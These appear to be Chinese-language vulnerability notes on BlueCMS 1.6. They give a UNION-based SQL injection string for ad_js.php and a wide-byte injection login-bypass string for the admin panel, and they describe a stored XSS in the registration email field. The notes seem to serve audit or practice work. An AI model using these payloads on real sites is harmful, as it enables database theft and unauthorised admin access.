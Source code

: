 ### bluecms

```
版本信息：1.6
```

#### SQL注入

```
ad_js.php?ad_id=1 union select 1,2,3,4,5,6,database()
```

![Snipaste_2022-10-24_14-41-55.jpg](images/Snipaste_2022-10-24_14-41-55.jpg)

#### 后台宽字节注入万能密码登录

```
admin%df' or 1=1
```

![Snipaste_2022-10-24_14-47-12.jpg](images/Snipaste_2022-10-24_14-47-12.jpg)

#### 用户注册处XSS

注册的时候抓包，在邮箱处插入payload

![Snipaste_2022-10-24_15-04-20.jpg](images/Snipaste_2022-10-24_15-04-20.jpg)

在个人中心处即可看到触发了弹窗

![Snipaste_2022-10-24_15-05-12.jpg](images/Snipaste_2022-10-24_15-05-12.jpg)

管理员登录后台查看会员列表，亦可看到触发弹窗

![Snipaste_2022-10-24_15-06-29.jpg](images/Snipaste_2022-10-24_15-06-29.jpg)